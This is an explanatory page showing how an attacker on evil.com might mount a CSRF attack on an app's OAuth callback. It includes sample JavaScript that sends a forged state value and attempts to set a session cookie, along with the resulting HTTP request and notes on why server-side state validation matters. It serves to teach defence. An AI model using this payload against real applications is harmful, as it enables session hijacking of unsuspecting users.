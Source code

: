 # CSRF Attack Example from evil.com

Here's how an attacker might attempt to exploit the OAuth flow from their evil.com domain:

1. The attacker's webpage on evil.com might contain JavaScript like this:

```html
<script>
  // The attacker's known CSRF token and session ID
  const attackerCsrfToken = 'known_csrf_token_here';
  const attackerSessionId = 'known_session_id_here';

  // Craft the malicious URL
  const targetUrl = `https://your-app.com/auth/authorized?state=${attackerCsrfToken}&code=some_code_here`;

  // Function to make the request
  function makeRequest() {
    fetch(targetUrl, {
      method: 'GET',
      credentials: 'include',  // This tells the browser to send cookies
      headers: {
        'Cookie': `session=${attackerSessionId}`  // Attempt to set the session cookie
      }
    }).then(response => {
      console.log('Request completed', response);
    }).catch(error => {
      console.error('Error:', error);
    });
  }
</script>

<button onclick="makeRequest()">Click me!</button>
```

2. When the victim clicks the button (or this could be triggered automatically), their browser sends a GET request to your-app.com that looks like this:

```
GET /auth/authorized?state=known_csrf_token_here&code=some_code_here HTTP/1.1
Host: your-app.com
Cookie: session=known_session_id_here
```

Important notes:
- The attacker is attempting to send both the CSRF token (as a query parameter) and the session ID (as a cookie).
- Modern browsers would typically block the `Cookie` header in the `fetch` request due to security policies.
- If the victim has no existing session with your-app.com, the browser might send the request without any cookies.

This attack relies on your server accepting the `state` parameter and potentially creating a new session based on it, which is why proper server-side validation is crucial.
